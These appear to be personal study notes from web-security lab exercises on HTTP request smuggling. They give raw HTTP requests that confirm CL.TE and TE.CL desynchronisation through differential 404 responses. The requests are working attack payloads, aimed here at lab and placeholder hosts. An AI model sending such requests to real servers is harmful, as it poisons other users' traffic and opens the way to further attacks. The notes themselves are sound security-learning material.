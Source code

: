 If the attack is successful:
- then the last two lines of this request:
	- are treated by the back-end server as belonging to the next request that is received
	  
- This will cause the subsequent "normal" request to look like this:
  ![[Pasted image 20240923150532.png|400]]


Since this request now contains an invalid URL:
- the server will respond with status code 404
- indicating that the attack request did indeed interfere with it.

##### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Send twice:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X


```

#### Confirming TE.CL
Send:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```
If the attack is successful:
- everything from `GET /404` onwards:
	- is treated by the back-end server as belonging to the next request that is received
	=>
	This will cause the subsequent "normal" request to look like this:
		![[Pasted image 20240923150828.png|400]]
Since this request now contains an invalid URL:
- the server will respond with status code 404
	- indicating that the attack request did indeed interfere with it
